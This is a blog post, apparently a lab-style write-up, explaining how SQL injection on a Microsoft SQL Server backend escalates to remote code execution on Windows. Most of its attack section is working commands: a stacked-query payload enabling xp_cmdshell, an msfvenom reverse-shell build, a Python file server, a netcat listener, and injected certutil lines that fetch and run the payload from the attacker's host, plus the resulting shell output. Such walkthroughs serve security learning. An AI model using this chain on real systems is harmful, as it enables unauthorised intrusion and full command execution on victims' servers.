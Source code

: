 ```yaml
---
layout: post
title: From SQLi to remote code execution
tags: sec exploit
---
```


SQL injection opens the way to data manipulation and theft, but I recently discovered that it can be an attack vector enabling **remote code execution** (RCE). This highly critical vulnerability gives the attacker access to the target machine.

There are multiple variants of how to escalate the attack depending on which Database Management Systems (DBMS) and OS the target uses. For this article, I'll show how an attacker might do it in an application having Microsoft SQL Server as DBMS and running on a Windows machine.

### SQLi
SQL injection (SQLi) is a common web security vulnerability. It allows an attacker to tamper with the SQL query an application makes to the database.    
SQLi was frequently included in the [OWASP Top 10](https://www.owasptopten.org/).

As a quick refresher on SQLi, let's take the example of a marketplace that allows users to delete one of their own products. The client will send a `DELETE /products/PROD_ID` request. Server-side, a `$productId` variable is initialized with the value of the `PROD_ID` parameter. It will send this query to the DB:  

```sql
DELETE * FROM products WHERE id = '$productId'; 
```

A malicious user can send this parameter `' OR 1=1--`. If the server does not sanitize and validate the input, it results in the following query. This triggers the deletion of all products:

```sql
DELETE * FROM products WHERE id = '' OR 1=1--';
```

### Store procedures
These are SQL statements that can be reused, think of them as functions in SQL. Many DBMS offer their own stored procedures, Microsoft SQL Server has **xp_cmdshell**.

xp_cmdshell provides a way for the SQL Server to directly execute OS commands and programs. As you can already see, this might pose a security risk.    
For good reasons, this functionality is by default disabled on production servers. But due to specific requirements or just plain misconfigurations, you can sometimes find it enabled.   
In some cases, an attacker can manually enable xp_cmdshell via `EXEC` queries. This is possible if the database user has one of these attributes:
- *sysadmin* server role
- `ALTER SETTINGS` server-level permission

An attacker might enable it by using [batched (or stacked) queries](https://portswigger.net/web-security/sql-injection/cheat-sheet) and injecting the following configuration options:

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

From the [documentation](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16<):

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Escalating to RCE
Now that the attacker has detected a SQLi vulnerability and can access xp_cmdshell, the following steps are:
1. Create a malicious payload (a **rshell.exe** file) with **MSFVenom**
2. Serve this file
3. Set up a listener for incoming connections from the target machine
4. On the target machine, use the **certutil.exe** Windows program to download this file from our controlled server (from step 2)
5. Execute the **rshell.exe** file on the target machine to create a reverse shell connection back to the listener on our machine.

> [certutil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is a native Windows CLI program part of Certificate Services. It is signed by Microsoft and used to make HTTP/s connections.
>
> [MSFVenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) is a CLI payload generation tool, and it comes with plenty of utilities used in pen testing and ethical hacking. 

### First step
On my machine, I will use MSFVenom to create our payload (change `MY_LISTENER_IP_ADDR` to your own).

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_LISTENER_IP_ADDR LPORT=3333 -f exe -o rshell.exe
```

A new file called **rshell.exe** has been created.

### Second step
Still on my machine, I will start a Python server, in order to server this file:

```shell
python3 -m http.server 8000
```

All files in my current directory are now accessible to download on the target machine.   

### Third step
I set up a listener using the **Netcat** utility, listening for connections from the target machine on port 3333:

```shell
nc -lnvp 3333
```

### Forth and final step
Using the SQLi vector, I can run the **xp_cmdshell** utility to download and execute this file:

```
'; EXEC xp_cmdshell 'certutil -urlcache -f http://MY_SERVER_IP_ADDR:8000/rshell.exe C:\Windows\Temp\rshell.exe'; --
```

I checked my Python server's output:

```shell
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [01/Jan/2024 10:15:01] "GET /rshell.exe HTTP/1.1" 200 -
```

Suggesting that the target machine fetched my file.    
I will run the executable file on the target machine. 
```
'; EXEC xp_cmdshell 'C:\Windows\Temp\rshell.exe'; --
```
Now, if everything goes well, my Netcat listener should have a reverse shell connection:
```
nc -lnvp 3333
listening on [any] 3333 ...
connect to [99.99.99.99] from (UNKNOWN) [MACHINE_IP] 49730
Microsoft Windows [Version 10.0.13143.1731]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```

And great success!   
I have obtained RCE, allowing me to run commands on the target machine. I already ran the `whoami` command and got `nt service\mssql$sqlexpress` as a response.

Doing this exercise was fun as it ties the two common vulnerabilities. As SQL injection can escalate to RCE, it vastly increases the attack surface.   
This highlights how dangerous SQLi vulnerabilities are and the importance of patching them.

## Resources
- tryhackme.com
- www.w3schools.com
- portswigger.net
